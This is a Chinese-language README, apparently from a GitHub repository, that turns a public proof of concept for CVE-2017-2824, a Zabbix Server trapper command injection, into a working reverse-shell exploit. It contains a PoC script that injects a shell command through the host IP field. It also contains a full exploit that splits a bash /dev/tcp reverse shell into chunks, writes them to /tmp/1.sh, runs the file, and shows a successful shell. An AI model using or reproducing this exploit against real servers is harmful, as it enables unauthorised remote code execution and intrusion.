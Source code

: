 # CVE-2017-2824：Zabbix Server trapper命令注入漏洞

## 背景

网上各种搜索，发现只有poc，这个poc是创建一个success文件，实战中没有实际作用。

但只是简单把touch /tmp/success替换成反弹shell的命令，并不能执行成功，猜想是不是命令执行长度的限制，想到一个曲线救国的方法，把反弹shell的命令分多次写入到一个sh文件里，最后执行sh文件就可以了

## **0x01 漏洞概述**

Zabbix SIA Zabbix是拉脱维亚Zabbix SIA公司的一套开源的监控系统。该系统支持网络监控、服务器监控、云监控和应用监控等。Zabbix Server的trapper命令处理，存在命令注入漏洞，可导致远程代码执行。

## **0x02 漏洞原理**

zabbix 调用script脚本时，没有对IP地址过滤，导致在注册host的数据包中的ip地址后面可以跟分号+命令的方式执行命令。

## **0x03 组件特征**



## **0x04 影响版本**

zabbix 2.4.x

zabbix 3.0.x < 3.0.4

## **0x05 利用条件**

管理员开启了自动注册功能，接受任意主机注册

zabbix自带的script没删，有ping的script

## **0x06 利用思路**

把自己主机注册到zabbix server；

获取注册的host id，出发命令注入。

以上过程可使用脚本完成

## **0x07 漏洞验证**

poc.py

```python
import sys
import socket
import json
import sys
 
 
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
 
 
target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

使用上面的脚本创建一个临时文件

```shell
python .\poc.py 192.168.144.128
```

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_10-44-31.png)

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_10-44-58.png)

第一次执行没有hostid，第二次执行时，注册成功了，执行了命令。若不成功，多执行几次

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_10-45-45.png)

## **0x08 漏洞利用**

网上没有现成利用工具，有些反弹shell的发现不成功

1、多次测试发现对执行的命令长度有限制，超过长度就无法执行命令，可能跟IP长度有关系。所以想到利用分批次写入一个脚本文件，然后执行脚本。

2、第二注意点就是脚本执行逻辑是先注册一个host，然后调用zabbix的script脚本对这个host执行命令，所以得循环执行注册并执行zabbix script的逻辑

3、第三个点就是hostid和host这个参数，这两个都是增加的，每注册一个host，写入了一段命令，host名就要修改一次，执行script 的hostid也会增加一次。

exp如下（修改exps里面反弹shell的ip端口为自己的ip和端口）

```python
import sys
import socket
import json
from time import sleep
 
 
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
 
 
# target = "192.168.144.128"
target = sys.argv[1]
num = 1
 
exps = [';echo -n "/bin/bash" > /tmp/1.sh', ';echo -n " -i >& " >> /tmp/1.sh', ';echo -n "/dev/tcp/" >> /tmp/1.sh',
        ';echo -n "192.168." >> /tmp/1.sh', ';echo -n "144.128/" >> /tmp/1.sh', ';echo -n "4444 0>&1" >> /tmp/1.sh',
        ';/bin/bash /tmp/1.sh']
for exp in exps:
    host = "vulhub" + str(num)
    print(host)
    print(send(target, {"request": "active checks", "host": host, "ip": exp}))
    sleep(1)
    num += 1
 
    for i in range(10000, 10500):
        data = send(target, {"request": "command", "scriptid": 1, "hostid": str(i)})
        if data and b'failed' not in data:
            print('hostid: %d' % i)
            print(data)
```

脚本怎么使用

对目标多执行几次命令，第一次会提示每个host不存在，会对这些host注册，第二次对这些host执行命令，有可能执行不成功，一般最多三次就可以成功反弹shell了

第一次执行效果

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_15-54-30.png)

第二次执行效果

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_15-54-54.png)

第三次执行，提示连接超时，则可能是第二次已经反弹shell成功了，所以再去连接nc端口超时

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_15-55-22.png)

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_15-56-34.png)

查看反弹shell成功

![Image text](https://raw.githubusercontent.com/listenquiet/cve-2017-2824-reverse-shell/main/img/2021-09-28_15-58-49.png)

但这种反弹shell不知道什么原因，会导致容器过一分钟左右退出。非容器环境未测试，使用需谨慎，使用此脚本导致业务受影响，本人概不负责。



## **参考链接**

https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824/README.md
